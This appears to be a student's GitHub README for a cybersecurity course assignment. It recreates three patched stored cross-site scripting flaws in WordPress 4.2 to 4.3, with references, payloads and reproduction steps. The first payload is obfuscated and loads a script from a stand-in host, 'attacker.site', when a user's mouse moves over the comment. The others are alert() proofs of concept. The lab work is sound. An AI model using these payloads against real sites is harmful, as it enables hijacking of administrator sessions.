# CyberSecurityWeek7
My assignment for week 7

Exploit 1:

[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/7945
    Reference: http://klikki.fi/adv/wordpress2.html
    Reference: http://packetstormsecurity.com/files/131644/
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1

Source Code:

```html
<a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27script%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2f%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
```

Guide for recreation:

I made a comment on a post not as an admin using XSS. 
The comment content had to be greater than 64kb in order to work. 
After the comment was submitted, I approved the comment as the admin, and went to view the post with the comments. 
On the load of the page the exploit was ran. This vulnerability was patched in WordPress 4.2.1.

Gif:
<img src="XSS Exploit 1.gif" width="800">


Exploit 2:

[!] Title: WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8111
    Reference: https://wordpress.org/news/2015/07/wordpress-4-2-3/
    Reference: https://twitter.com/klikkioy/status/624264122570526720
    Reference: https://klikki.fi/adv/wordpress3.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
[i] Fixed in: 4.2.3

Source Code:

```html
<a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
```

Guide for recreation:

I made a post as a user with Author privileges using the source code as the content of the post. 
I then signed in as an admin and when viewing the post, the script ran on mouseover of the post. 
This vulnerability was patched in WordPress 4.2.3.

Gif:
<img src="XSS Exploit 2.gif" width="800">


Exploit 3:

[!] Title: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8186
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714
[i] Fixed in: 4.2.5

Source Code: 
                          
```html
TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>
```

Guide for recreation:
I made a post as a user with Author privileges using the source code for the content of the post. 
I then signed in as an admin and then when going to click the link, the script runs on mouseover instead of onclick.
This vulnerability was patched in WordPress 4.2.5.

Gif:
<img src="XSS Exploit 3.gif" width="800">
